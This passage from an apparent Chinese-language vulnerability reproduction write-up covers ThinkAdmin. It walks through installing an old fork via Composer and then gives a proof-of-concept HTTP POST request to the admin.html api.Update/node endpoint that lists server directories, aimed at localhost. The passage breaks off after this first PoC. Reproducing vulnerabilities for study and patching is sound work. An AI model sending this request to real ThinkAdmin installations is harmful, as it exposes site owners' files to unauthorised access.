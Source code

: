 使用Composer命令进行安装

  

#### 1、设置阿里云 Composer 代理  

由于国内访问Composer比较慢，建议设置阿里云Composer镜像，运行如下命令设置阿里云代理  

```
composer config -g repo.packagist composer https://mirrors.aliyun.com/composer
```

  

#### 2、下载应用代码（别人fork的老版本）

```
https://github.com/179776823/ThinkAdmin
```

  

#### 3、安装依赖组件

进入ThinkAdmin目录，运行指令安装依赖组件

```
`cd ThinkAdmin``composer install`
```

  

如未成功，查看官方安装文档：

https://thinkadmin.top/install

  

**0x05 漏洞复现**  

  

**1、列目录**  

POC：  

| 

POST /admin.html?s=admin/api.Update/node HTTP/1.1

Host: 127.0.0.1

Accept: \*/\*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 22

  

rules=%5B%22.%2F%22%5D

 |
